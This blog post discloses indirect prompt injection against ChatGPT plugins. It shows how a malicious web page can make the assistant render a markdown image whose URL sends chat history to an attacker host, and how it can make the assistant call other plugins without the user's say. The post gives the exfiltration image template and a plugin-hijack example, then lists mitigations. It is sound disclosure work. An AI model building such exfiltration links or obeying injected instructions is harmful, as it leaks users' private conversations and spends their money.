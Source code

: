 ```yaml
---
title: "ChatGPT Plugins: Data Exfiltration via Images & Cross Plugin Request Forgery"
date: 2023-05-16T07:45:38-07:00
tags: [
     "aiml", "machine learning","red", "threats", "ai injections"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "ChatGPT: Data Exfiltration via Plugins and Markdown Injection"
  description: "Plugins can return malicious content and hijack your AI."
  image: "https://embracethered.com/blog/images/2023/hacker-white.jpg"
---
```


This post shows how a malicious website can take control of a ChatGPT chat session and exfiltrate the history of the conversation.

## Plugins, Tools and Integrations

With plugins, data exfiltration can happen by sending too much data into the plugin in the first place. More security controls and insights on what is being sent to the plugin are required to empower users.

**However, this post is not about sending too much data to a plugin, but about a malicious actor who controls the data a plugin retrieves**.

### Untrusted Data and Markdown Injection

The individual controlling the data a plugin retrieves can exfiltrate chat history due to ChatGPT's rendering of markdown images. 

Basically, if the LLM returns a markdown image in the form of

```
![data exfiltration in progress](https://attacker/q=*exfil_data*)
```

ChatGPT will render it automatically and retrieve the URL. During an Indirect Prompt Injection the adversary controls what the LLM is doing (I call it AI Injection for a reason), and it can ask to summarize the past history of the chat and append it to the URL to exfiltrate the data.

I'm not the only one who points this out, [Roman Samoilenko has observed and posted about this vulnerability in ChatGPT before](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2). Roman found it March 14th. I ran across it separatley a few weeks after.

### Proof of Concept Demonstration

This is possible with plugins, e.g. via the `WebPilot Plugin` or check out the [YouTube Transcript Plugin Injection](/blog/posts/2023/chatgpt-plugin-youtube-indirect-prompt-injection/) I posted about the other day. 

The LLM's response can contain markdown (or instruct the AI to build it on the fly), summarize the past conversation, URL encode that summary and append that as query parameter. And off it goes to the attacker.

Here is how this looks in action:

[![Data exfiltration in progress](/blog/images/2023/ai-exfil-progress.png)](/blog/images/2023/ai-exfil-progress.png)

The text that is being exfiltrated including "TooManySecrets123" is something that was written earlier in the chat conversation.

And here is an end to end video POC:

{{< youtube PIY5ZVktiGs >}}


Feel free to skip forward in the middle section - it's a bit slow. 

But wait, there is more....

### Can an attacker call another Plugin during the injection?

**Short answer is yes.** 

**This is an interesting variant of `Cross Site Request Forgery` actually, but we will need a new name for it, maybe `Cross Plugin Request Forgery`.**

Here is an example of an Indirect Prompt Injection calling another plugin (Expedia) to look for flights:

[![AI Injections searches for flights](/blog/images/2023/ai-injection-call-plugin.png)](/blog/images/2023/ai-injection-call-plugin.png)

Yes, random webpages and comments on sites will soon hijack your AI and spend your money.

## Mitigations and Suggestions

Safe AI assistants would be really awesome to have, the power of ChatGPT is amazing! So what could be done to improve the security posture? 

- Its unclear why a plugins have access to the history of the conversation. This could be isolated. It would be better if plugins go off do their work, rather then giving it access to the entire conversation history, or allow invoking other plugins.
- A security contract for plugins is needed. Who is responsible for what? What data is sent to the plugin? Currently there is no defined or enforced schema that could help mitigate such problems. Open AI mentions **Human in the loop** as a [core safety best practice](https://platform.openai.com/docs/guides/safety-best-practices), but end-users have little to no control at the moment once they start using them.
- In fact the idea of having some sort of **kernel LLM** and other sandbox LLM is discussed by [Simon Willison, who has thought about this already in a lot more detail](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/).
- NVIDIA has been working on [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/) to help keep bots in check
- Scenarios like rendering images could be implemented as a dedicated feature, rather than depending on the convenience of markdown. (e.g. links being returned that are not injected into the chat context, but as references after the main message).
- Only use and point plugins to data you fully trust. 

A lot more research is needed, both from offensive and defensive side. And at this point, with the speed of adoption and new tools being released it seems that raising awareness to have more smart people look into this (and how to fix it) is the best we can do.

## Conclusion

With the advent of plugins Indirect Prompt Injections are now a reality within ChatGPT's ecosystem. As attacks evolve we will probably learn and see nefarious text and instructions on websites, blog posts, comments,.. to attempt to take control of your AI.

### Responsible Disclosure

I first disclosed the image markdown injection issue to Open AI on April, 9th 2023. 

After some back and forth, and highlighting that plugins will allow to exploit this remotely, I was informed that image markdown injection is a feature and that no changes are planned to mitigate this vulnerability.


## References

* [Roman Samoilenko - New prompt injection attack on ChatGPT web version. Markdown images can steal your chat data.](https://systemweakness.com/new-prompt-injection-attack-on-chatgpt-web-version-ef717492c5c2)
* [Open AI Safety Best Practices](https://platform.openai.com/docs/guides/safety-best-practices)
* [Dual LLM pattern](https://simonwillison.net/2023/Apr/25/dual-llm-pattern/)
* [NeMo GuardRails](https://blogs.nvidia.com/blog/2023/04/25/ai-chatbot-guardrails-nemo/)

